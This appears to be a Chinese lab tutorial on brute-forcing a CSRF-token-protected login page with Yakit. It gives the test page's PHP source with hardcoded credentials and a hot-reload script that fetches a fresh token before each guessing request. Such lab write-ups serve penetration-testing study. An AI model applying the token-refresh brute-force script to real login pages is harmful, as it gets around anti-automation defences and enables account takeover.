





### 环境
**<font style="color:rgb(49, 52, 63);background-color:rgb(240, 241, 243);">Yakit v1.4.1-0508</font>**

## 场景一CSRF-token保护
```php
<?php
  session_start();

// 如果是AJAX请求获取token
if (isset($_SERVER['HTTP_X_REQUESTED_WITH']) && $_SERVER['HTTP_X_REQUESTED_WITH'] === 'XMLHttpRequest' && $_SERVER['REQUEST_METHOD'] === 'GET') {
  // 每次AJAX GET请求都生成新的CSRF令牌
  $_SESSION['csrf_token'] = md5(uniqid(mt_rand(), true));

  header('Content-Type: application/json');
  echo json_encode(['csrf_token' => $_SESSION['csrf_token']]);
  exit;
}

// 验证CSRF令牌 (从请求头获取)
if ($_SERVER["REQUEST_METHOD"] == "POST") {
  $csrf_token_header = isset($_SERVER['HTTP_X_CSRF_TOKEN']) ? $_SERVER['HTTP_X_CSRF_TOKEN'] : null;

  if (!isset($csrf_token_header) || $csrf_token_header !== $_SESSION['csrf_token']) {
    header('Content-Type: application/json');
    echo json_encode(['error' => 'CSRF令牌验证失败！']);
    exit;
  }

  // CSRF令牌验证成功，销毁会话中的令牌，实现一次一密
  unset($_SESSION['csrf_token']);

  // 处理登录逻辑
  $username = $_POST["username"];
  $password = $_POST["password"];

  if ($username === "admin" && $password === "passwd") {
    echo json_encode(['success' => true, 'message' => '登录成功！']);
  } else {
    echo json_encode(['success' => false, 'message' => '用户名或密码错误！']);
  }
  exit;
}
  ?>
  <!DOCTYPE html>
  <html>
  <head>
  <meta charset="UTF-8">
  <title>登录系统</title>
  <style>
  body {
  font-family: Arial, sans-serif;
  display: flex;
  justify-content: center;
  align-items: center;
  height: 100vh;
  margin: 0;
  background-color: #f0f2f5;
  }
  .login-container {
  background-color: white;
  padding: 20px;
  border-radius: 8px;
  box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1);
  width: 300px;
  }
  .form-group {
  margin-bottom: 15px;
  }
  label {
  display: block;
  margin-bottom: 5px;
  }
  input[type="text"], input[type="password"] {
  width: 100%;
  padding: 8px;
  border: 1px solid #ddd;
  border-radius: 4px;
  box-sizing: border-box;
  }
  button {
  width: 100%;
  padding: 10px;
  background-color: #1677ff;
  color: white;
  border: none;
  border-radius: 4px;
  cursor: pointer;
  }
  button:hover {
  background-color: #4096ff;
  }
  .error-message {
  color: red;
  margin-top: 10px;
  text-align: center;
  }
  .success-message {
  color: green;
  margin-top: 10px;
  text-align: center;
  }
  </style>
  </head>
  <body>
  <div class="login-container">
  <h2 style="text-align: center;">用户登录</h2>
  <form id="loginForm" method="POST" action="login.php">
  <div class="form-group">
  <label for="username">用户名：</label>
  <input type="text" id="username" name="username" required>
    </div>
            <div class="form-group">
                <label for="password">密码：</label>
                <input type="password" id="password" name="password" required>
            </div>
            <button type="submit">登录</button>
            <div id="message"></div>
        </form>
    </div>

    <script>
    document.getElementById('loginForm').addEventListener('submit', function(e) {
        e.preventDefault();
        
        // 先获取CSRF令牌
        fetch('login.php', {
            method: 'GET',
            headers: {
                'X-Requested-With': 'XMLHttpRequest'
            }
        })
        .then(response => response.json())
        .then(data => {
            const csrfToken = data.csrf_token;
            
            // 获取表单数据
            const formData = new FormData(this);
            
            // 发送登录请求，将CSRF令牌放入HTTP头
            fetch('login.php', {
                method: 'POST',
                headers: {
                    'X-CSRF-Token': csrfToken,
                    'X-Requested-With': 'XMLHttpRequest' // 添加此头部，后端用于区分是否为AJAX请求
                },
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                if (data.error) {
                    document.getElementById('message').innerHTML = `<div class="error-message">${data.error}</div>`;
                } else if (data.success) {
                    document.getElementById('message').innerHTML = `<div class="success-message">${data.message}</div>`;
                } else {
                    document.getElementById('message').innerHTML = `<div class="error-message">${data.message}</div>`;
                }
            })
            .catch(error => {
                console.error('Error:', error);
                document.getElementById('message').innerHTML = '<div class="error-message">登录请求失败</div>';
            });
        })
        .catch(error => {
            console.error('Error:', error);
            document.getElementById('message').innerHTML = '<div class="error-message">获取CSRF令牌失败</div>';
        });
    });
    </script>
</body>
</html> 
```

<font style="color:rgba(0, 0, 0, 0.85);">任意输入账号密码之后，使用 yakit 的 MITM 模块拦截登录请求，我们可以看到请求如下： </font>





<font style="color:rgba(0, 0, 0, 0.85);">注意到除了用户和密码之外，还存在一个token的post参数，这是一个csrf token，它主要是用来防止CSRF攻击的，但是这也给我们的爆破增加了一定的难度，因为每次爆破都需要使用一个新的token。那么在这种情况下我们应该如何爆破呢？</font>

### <font style="color:rgba(0, 0, 0, 0.85);">方法1-热加载</font>
```plain
beforeRequest = func(req) {
   pkg = `
GET /csrf/login.php HTTP/1.1
Host: 192.168.2.10
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br, zstd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Cookie: PHPSESSID=d5rv1ovh8cff449mf6hd0ntpa5
X-Requested-With: XMLHttpRequest
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Fetch-Site: same-origin
Accept: */*
Sec-Fetch-Mode: cors
Accept-Language: zh-CN,zh;q=0.9
`
// req,rsp,_=poc.HTTP(pkg, poc.gmTls(),poc.https(true))//开启国密，开启https
req2,_,_=poc.HTTP(pkg)
a,_=poc.ParseBytesToHTTPResponse(req2)//获取响应体
json_token,_ = io.ReadAll(a.Body) //{"csrf_token":"3fe1d20bcd8a4c11154b1d91e7f0115a"}
token= json.loads(json_token)//解析获取csrf_token对应的内容
csrf_token = token["csrf_token"]
req = poc.ReplaceHTTPPacketHeader(req, "X-CSRF-Token", csrf_token)//替换数据包头中的X-CSRF-Token对应的内容
    return req
}
```



可以发现使用热加载写完代码，会自动修改"X-CSRF-Token",相对比较方便

### 方法2-序列
[序列-csrf-token](https://yaklang.com/products/Web%20Fuzzer/fuzz-sequence-example3)


